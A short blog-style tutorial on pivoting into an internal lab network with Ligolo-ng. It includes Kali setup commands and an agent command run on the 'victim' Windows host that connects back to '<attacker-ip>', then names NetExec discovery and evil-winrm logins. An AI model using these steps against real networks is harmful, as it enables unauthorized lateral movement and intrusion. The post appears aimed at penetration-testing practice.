





Simplifying Pivoting Using Ligolo-ng
A while ago, I became quite interested in learning about pivoting, and I started exploring various tools that can be used for pivoting, such as Chisel, SSHuttle, Metasploit, and SSH tunneling. Among the many tools I found on the internet, I was particularly intrigued by a tool called Ligolo-ng. This tool allows us to perform pivoting in a manner similar to a VPN, utilizing the tun0 interface. So, when we pivot using this tool, we essentially gain a dedicated interface provided by the tool itself.
What is Ligolo-ng?
Ligolo-ng is an open-source tool created by Nicolas Chatelain, written in the Go programming language (Golang). This tool allows penetration testers to perform tunneling similar to a VPN. It can be utilized for pivoting during penetration testing. For the setup process, you can follow the steps below. I will demonstrate the setup using Kali Linux.

Here, you can see the infrastructure I have set up. There are two different networks: the External network (192.168.56.0/24) and the Internal network (10.10.10.0/24). Within the Internal network, there are two Windows Servers, one of which is a DC (Domain Controller) and the other is a Windows Server for developers. DEV01 (the developer machine) is joined to the domain of DC01 (domain: wtbank.local). Our goal is to figure out how the attacker can access the Internal network to log in to the DC01 machine. Let’s proceed with the setup.
Setup Ligolo-ng
$ sudo ip tuntap add user [your_username] mode tun ligolo
# sudo ip link set ligolo up
You can configure the internal network you wish to access. For instance, in this scenario, it is 10.10.10.0/24. Add a route to access the 10.10.10.0/24 network using the ip route command.
$ sudo ip route add 10.10.10.0/24 dev ligolo

Run the proxy server on your Kali Linux, and ensure that you set the executable permission on the proxy binary.
$ chmod +x proxy
$ ./proxy -selfcert
Upload the agent.exe file to the Windows victim machine and execute it.
$ .\agent.exe -connect <attacker-ip>:<port> -ignore-cert

Running tunneling
session <enter>
start <enter>
Now we can access the internal networks 10.10.10.0/24 and let’s try to run NetExec for host discovery and connect winrm using evil-winrm.


It’s that easy to pivot, because with ligolo-ng it really helps us to pivot, maybe next time I will make a video version and thank you for reading until the end ~ bye